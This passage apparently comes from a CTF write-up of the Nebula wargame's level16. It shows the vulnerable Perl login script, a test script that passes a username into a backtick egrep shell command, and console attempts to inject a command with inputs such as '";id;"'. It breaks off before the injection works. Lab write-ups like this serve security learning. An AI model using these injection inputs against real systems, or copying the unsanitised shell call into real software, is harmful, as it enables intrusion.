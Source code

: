 ```perl
  

      if($pw =~ $password) {
          return 1;
      }
  }

  return 0;
}
```
* `htmlz()` wraps `login()`'s output to HTML
```perl
sub htmlz {
  print("<html><head><title>Login resuls</title></head><body>");
  if($_[0] == 1) {
      print("Your login was accepted<br/>");
  } else {
      print("Your login failed<br/>");
  }    
  print("Would you like a cookie?<br/><br/></body></html>\n");
}
```
### Command Injection
To practice `command-injection` in `login()` I created a little playground script.
```perl
# take username string from STDIN
$username = <>;

$username =~ tr/a-z/A-Z/; # conver to uppercase
$username =~ s/\s.*//;        # strip everything after a space

# show how commandline will look like
$test = "egrep \"^$username\" /home/flag16/userdb.txt 2>&1";
print $test . "\n";

# run commandline
@output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
print @output;
```
We can then run it and try injecting a command.

Let's try running `id`.
```console
level16@nebula:~$ perl test.pl
";id;""
egrep "^";ID;""" /home/flag16/userdb.txt 2>&1
sh: -c: line 0: unexpected EOF while looking for matching `"'
sh: -c: line 1: syntax error: unexpected end of file
```
I mistakenly put one extra quotation mark.

> Note we can't use spaces, as text after them will be stripped.
```console
level16@nebula:~$ perl test.pl
";id;"
egrep "^";ID;"" /home/flag16/userdb.txt 2>&1

hello
world
^C
```
This time it repeatingly asks for more user input.
